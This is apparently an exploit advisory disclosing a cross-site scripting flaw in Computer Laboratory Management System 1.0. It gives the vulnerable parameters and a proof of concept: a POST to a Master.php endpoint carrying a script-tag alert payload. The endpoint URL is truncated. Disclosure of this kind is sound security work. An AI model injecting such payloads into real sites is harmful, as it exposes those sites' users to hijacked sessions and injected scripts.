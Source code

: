 Computer Laboratory Management System 1.0 - Cross Site Scripting (XSS) Vulnerability
Description
A Cross Site Scripting (XSS) vulnerability exists in Computer Laboratory Management System version 1.0. This vulnerability allows a remote attacker to execute arbitrary code via the type, borrower_name.

Details
Exploit Title: Computer Laboratory Management System 1.0 - Cross Site Scripting (XSS)
Date: 08-07-2024
Exploit Author: Mu Kehan
Vendor Homepage: https://www.sourcecodester.com
Software Link: https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
Version: 1.0
Tested on: Windows & Xampp
Vulnerability Details
Vulnerable Parameters
BorrowerName
Department
Remarks
PoC
URL: http://example.com/computer-laboratory-management-system/classes/Master.php?f=save_recor
Method: POST

Payload:

<script>alert('XSS');</script>

